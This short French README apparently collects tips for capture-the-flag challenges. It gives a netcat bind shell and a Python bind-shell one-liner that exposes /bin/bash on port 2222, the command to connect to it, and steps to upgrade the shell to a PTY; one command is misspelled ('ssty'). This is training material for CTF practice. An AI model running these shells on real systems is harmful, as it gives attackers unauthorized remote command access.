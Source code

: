# CTF
Tips and tools usefull for CTF

## Tips
### Unix 
Merci à @Clayno pour ses tips!

#### Obtenir un shell
Pour ouvrir une connexion sur le port 2222:
```
* nc -lvp 2222 -e /bin/bash
* python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
La connexion sur l'hôte se fait via 
```
nc -nv [adresse] 2222
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
ssty raw -echo
fg
```
